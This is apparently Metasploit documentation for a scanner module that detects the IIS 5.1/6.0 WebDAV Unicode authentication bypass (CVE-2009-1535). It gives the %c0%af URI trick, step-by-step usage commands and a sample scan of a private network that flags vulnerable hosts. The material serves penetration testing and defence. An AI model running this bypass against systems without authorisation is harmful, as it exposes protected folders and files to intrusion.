## Description

The WebDAV extension in Microsoft Internet Information Services (IIS) 5.1 and 6.0 allows remote attackers to bypass URI-based protection mechanisms, and list folders or read, create, or modify files, via a %c0%af (Unicode / character) at an arbitrary position in the URI, as demonstrated by inserting %c0%af into a `/protected/` initial pathname component to bypass the password protection on the protected\ folder, aka "IIS 5.1 and 6.0 WebDAV Authentication Bypass Vulnerability," a different vulnerability than CVE-2009-1122. More info about this vulnerability can be found in [cve-2009-1535](http://cve.mitre.org/cgi-bin/cvename.cgi?name=2009-1535).

## Verification Steps

1. Do: ```use auxiliary/scanner/http/dir_webdav_unicode_bypass```
2. Do: ```set RHOSTS [IP]```
3. Do: ```set THREADS [number of threads]```
4. Do: ```run```

## Scenarios

```
msf > use auxiliary/scanner/http/dir_webdav_unicode_bypass
msf auxiliary(dir_webdav_unicode_bypass) > show options

Module options (auxiliary/scanner/http/dir_webdav_unicode_bypass):

   Name        Current Setting                                          Required  Description
   ----        ---------------                                          --------  -----------
   DICTIONARY  /usr/share/metasploit-framework/data/wmap/wmap_dirs.txt  no        Path of word dictionary to use
   ERROR_CODE  404                                                      yes       Error code for non existent directory
   HTTP404S    /usr/share/metasploit-framework/data/wmap/wmap_404s.txt  no        Path of 404 signatures to use
   PATH        /                                                        yes       The path to identify files
   Proxies                                                              no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                                                               yes       The target address range or CIDR identifier
   RPORT       80                                                       yes       The target port (TCP)
   SSL         false                                                    no        Negotiate SSL/TLS for outgoing connections
   THREADS     1                                                        yes       The number of concurrent threads
   VHOST                                                                no        HTTP server virtual host

msf auxiliary(dir_webdav_unicode_bypass) > set RHOSTS 192.168.1.200-254
RHOSTS => 192.168.1.200-254
msf auxiliary(dir_webdav_unicode_bypass) > set THREADS 20
THREADS => 20
msf auxiliary(dir_webdav_unicode_bypass) > run

[*] Using code '404' as not found.
[*] Using code '404' as not found.
[*] Using code '404' as not found.
[*] Found protected folder http://192.168.1.211:80/admin/ 401 (192.168.1.211)
[*] 	Testing for unicode bypass in IIS6 with WebDAV enabled using PROPFIND request.
[*] Found protected folder http://192.168.1.223:80/phpmyadmin/ 401 (192.168.1.223)
[*] 	Testing for unicode bypass in IIS6 with WebDAV enabled using PROPFIND request.
[*] Found protected folder http://192.168.1.223:80/security/ 401 (192.168.1.223)
[*] 	Testing for unicode bypass in IIS6 with WebDAV enabled using PROPFIND request.
[*] Found protected folder http://192.168.1.204:80/printers/ 401 (192.168.1.204)
[*] 	Testing for unicode bypass in IIS6 with WebDAV enabled using PROPFIND request.
[*] 	Found vulnerable WebDAV Unicode bypass target http://192.168.1.204:80/%c0%afprinters/ 207 (192.168.1.204)
[*] Found protected folder http://192.168.1.203:80/printers/ 401 (192.168.1.203)
[*] 	Testing for unicode bypass in IIS6 with WebDAV enabled using PROPFIND request.
[*] 	Found vulnerable WebDAV Unicode bypass target http://192.168.1.203:80/%c0%afprinters/ 207 (192.168.1.203)
...snip...
[*] Scanned 55 of 55 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(dir_webdav_unicode_bypass) >
```
